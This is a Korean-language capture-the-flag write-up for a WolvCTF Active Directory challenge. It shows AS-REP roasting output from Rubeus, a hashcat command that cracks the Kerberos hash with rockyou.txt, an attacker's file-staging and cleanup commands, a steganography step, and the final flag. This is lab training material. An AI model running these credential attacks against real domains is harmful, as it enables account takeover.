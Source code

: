 ![alt text](image.png)<br><br>

공격자는 도메인 전체에서 수평 이동을 시도했다.<br>
wolvctf.corp의 다른 구성원들로부터, 두 개의 고위 권한 계정을 제외하고도 3개의 하위 권한 계정이 추가로 탈취되었다는 보고가 들어왔다.<br><br.>

이제 해야 할 일은 다음과 같다.<br><br>

탈취된 하위 권한 계정 3개를 식별하기.<br>
공격자가 어떻게 이동했는지 추적하면서 그들의 경로를 따라가기.<br>
그 경로를 따라가면 플래그를 찾을 수 있을 것이다.<br><br>

```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: AS-REP roasting

[*] Target User            : emily
[*] Target Domain          : wolvctf.corp
[*] Target DC              : DC01.wolvctf.corp

[*] Using domain controller: DC01.wolvctf.corp (fe80::af8f:bc46:1257:36be%5)
[*] Building AS-REQ (w/o preauth) for: 'wolvctf.corp\emily'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C7
      8A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C364
      39CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DC
      AAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9C
      C65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8
      DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED6
      5C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023

[*_*] d2N0Znthc3IzcHIwNHN0M2Q/Xw== // "wctf{asr3pr04st3d?_"
```

<br><br>

```
.\hashcat.exe -m 18200 -a 0 .\asreproast.txt .\rockyou.txt
hashcat (v6.2.6) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
CUDA API (CUDA 12.7)
====================
* Device #1: NVIDIA GeForce RTX 3080, 9073/10239 MB, 68MCU

OpenCL API (OpenCL 3.0 CUDA 12.7.33) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce RTX 3080, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 597 MB

Dictionary cache built:
* Filename..: .\rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4f6518a0ece1$619944a029ef908c78a80e2559c06788e2d86aeb1c94cd97e4540e5ea57c550c7fbd7
768d6ea24dbc66cfc6b8a9e39c36439ca4b50dcf29f3c078785f876835b239b3628f561d080f83294c9a3bc8d1c4dec538a15339257dcaab20f33ee168bdea0671c4a
ab92da6b089d7700e7be42564706bfa903654edf11376c1994bbe6b9cc65e53275ef3148b638aa5a52284e29912c3ca2171fd50fbd6929511416b51f8c4f8cb9383da
a74e8db3b0493a2654093c44bc399695525dd90e271a90c9992024a1d05e4188ec588663d2d849142aed65c5b77c38ed3dc7bb65178a565248f199b5dc2d382d2da01
16dad023:youdontknowmypasswordhaha

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4...dad023
Time.Started.....: Sat Mar 22 16:41:24 2025 (0 secs)
Time.Estimated...: Sat Mar 22 16:41:24 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 29516.5 kH/s (6.55ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4456448/14344384 (31.07%)
Rejected.........: 0/4456448 (0.00%)
Restore.Point....: 2228224/14344384 (15.53%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 610024 -> qu913466
Hardware.Mon.#1..: Temp: 52c Fan:  0% Util:  4% Core:1905MHz Mem:9251MHz Bus:16

Started: Sat Mar 22 16:41:23 2025
Stopped: Sat Mar 22 16:41:26 2025
```

<br><br>

```
cd C:\Users\emily
tree /f /a > tree.txt
type tree.txt
cd Documents
dir
type README
echo "James asked me to keep his password secret, so I made sure to take extra precautions." >> C:\Users\Public\loot.txt
echo "Note to self: Password for the zip is same as mine, with 777 at the end" >> C:\Users\Public\loot.txt
del README
cp .\important.7z C:\Users\Public
del C:\Users\Public\loot.txt
del C:\Users\Public\important.7z
runas /User:wolvctf\james cmd
```

<br><br>

즉, important.7z 의 패스워드는 emily 의 계정 암호인 youdontknowmypasswordhaha 에 777 을 붙인 youdontknowmypasswordhaha777이다.<br><br>

wctf{asr3pr04st3d?\_ ? d0nt_us3_4ll3xtendedr1ghts}<br><br>

플래그의 2번째 파트를 아직 못 찾았다.<br><br>

![alt text](image2.png)<br>
오잉? 스테가노그래피가 섞여있었다니...<br><br>

https://github.com/bannsec/stegoVeritas<br>
이 친구를 통해서 car.jpeg를 분석하였다.<br>
trailing_data.bin이라고 나오는데 그게 이미지 파일이고 이미지를 보면 고양이가 나온다.<br><br>

최종 플래그는 다음과 같다.<br>
wctf{asr3pr04st3d?\_sh0uldv3_3nabl3d_s0m3_k3rb3r0s_pr34uth_4nd_d0nt_us3_4ll3xtendedr1ghts}
